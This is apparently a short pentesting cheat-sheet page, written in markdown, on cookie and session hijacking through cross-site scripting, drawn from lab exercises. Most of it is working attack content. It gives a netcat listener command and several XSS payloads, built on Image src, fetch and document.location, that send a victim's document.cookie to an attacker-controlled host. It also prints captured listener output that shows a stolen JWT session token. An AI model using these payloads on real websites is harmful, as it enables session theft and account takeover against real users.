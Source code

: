 ```yaml
---
layout: post
title: Cookie/Session Hijacking
description: Cookie/Session Hijacking
summary: Cookie/Session Hijacking
tags: [web,xss]
minute: 1
---
```

## Intercepting via netcat
* Open netcat listener on attacker machine

```bash
nc -nlvp 4444
```

* Submit this XSS script on the form

```
<script>new Image().src="http://10.11.40.33:4444/bogus.php?output="+document.cookie;</script>
```

![](/spindel/assets/Cookie%20(Session)%20Hijacking/BC7E0478-D577-462B-BCF7-A9A0D0590D87.png)

* You will be able to intercept the cookie

```bash
➜  marketplace nc -nlvp 4444        
listening on [any] 4444 ...
connect to [10.11.40.33] from (UNKNOWN) [10.11.40.33] 57706
GET /bogus.php?output=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiZGVtbyIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjI4MTU5MzYzfQ.Nka6_SPBNEE1B3PmDWg4p7c3cG3BF4zqhTMCgGa6bJM HTTP/1.1
Host: 10.11.40.33:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://10.10.177.20/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

* You can use this method to grab an admin cookie
* An alternative is using `fetch` and redirecting it to your HTTP listener

```bash
# using fetch
<script>fetch("http://10.11.40.33:4444/"+document.cookie)</script>
```

* NOTE: There mght be delay in seeing the output so you might want to be patient

## Redirect to another page
* Insert this payload to comment section

```bash
# 10.10.39.208 - victim ip
<script>document.location='http://10.10.39.208/log/'+document.cookie</script>
```

* Refresh the page
* Go to `/logs`

![](Cookie%20(Session)%20Hijacking/79797591-B0CB-47DA-A97A-26504675CB4D.png)

## Other payloads
```bash
# sent by server -> cookie: denied
cookie: granted
```

## References
* HTB RedCross
* [Cookies Hacking - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies)
